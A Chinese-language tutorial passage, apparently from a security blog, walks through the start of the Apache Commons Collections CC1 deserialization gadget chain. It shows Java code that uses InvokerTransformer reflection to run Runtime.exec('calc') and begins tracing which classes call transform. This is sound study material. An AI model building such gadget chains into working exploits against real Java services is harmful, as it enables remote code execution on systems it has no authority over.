因为我们发现的`InvokerTransformer`能够通过反射来调用方法，所以我们尝试能不能用`InvokerTransformer`里面的`transform`来执行命令

```bash
package exp;

import org.apache.commons.collections.functors.InvokerTransformer;

import java.lang.reflect.Method;

public class CC1Test {
    public static void main(String[] args) throws Exception{
//      Runtime.getRuntime().exec("calc");命令执行对应的命令；
        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象
//      Class c = Runtime.class;
//      Method execMethod = c.getMethod("exec",String.class);
//      execMethod.invoke(r,"calc");

//      危险类利用测试：我们先调用 InvokerTransformer 的类，传入对应的参数，再找到对应的构造函数
//      public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args)//传参对应的是规定类型的数组，用来存放参数类型和参数值，所以我们要用它给的形式来进行传参；
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);

    }
}
```

### 调用链：

#### 后半条链：

[![](assets/1701612311-f7d6f6f3895634dc336c35f680c39849.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712234956-bfddba44-20cb-1.png)

*   我们已经找到了 InvokerTransformer.transform 中能够调用危险方法，所以我们就需要往前找一个能调用 transform 的类：
*   这里我们要找的就是对应的不同名字调用 transform，这样我们就能再往前找不同的类，所以这里 transform 调用 transform 的就没有很大的价值了

[![](assets/1701612311-c04fcf45a6ca015ebfc2abf1d465fe5a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235004-c4a559ec-20cb-1.png)
